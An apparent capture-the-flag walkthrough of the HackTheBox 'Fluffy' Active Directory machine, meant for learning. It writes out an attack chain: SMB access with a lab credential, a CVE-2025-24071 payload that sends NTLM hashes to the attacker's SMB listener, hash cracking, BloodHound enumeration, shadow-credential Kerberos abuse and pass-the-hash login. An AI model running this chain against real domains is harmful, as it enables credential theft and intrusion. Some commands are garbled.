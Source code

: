 Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should ses username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`


### Generate a TGT using faketime:
<pre> ``` aketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache`  ``` </pre>


### Set the Kerberos ticket environment variable:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash
<pre> ```faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT> ``` </pre>

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



